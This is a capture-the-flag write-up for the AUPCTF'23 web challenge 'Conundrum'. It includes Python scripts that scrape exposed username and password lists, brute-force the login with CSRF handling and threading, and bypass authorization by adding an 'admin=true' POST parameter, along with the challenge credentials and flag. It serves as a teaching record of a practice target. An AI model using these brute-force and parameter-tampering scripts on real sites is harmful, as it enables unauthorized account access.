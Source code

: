 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-24'
tags: ['ctf', 'web', 'aupctf', 'writeup']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


# AUPCTF'23 - Web - Conundrum

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](./images/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](./images/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](./images/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](./images/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](./images/conundrum_requests.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists: 
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:

![Login Success](./images/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](./images/conundrum_burp.png)
![Flag](./images/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```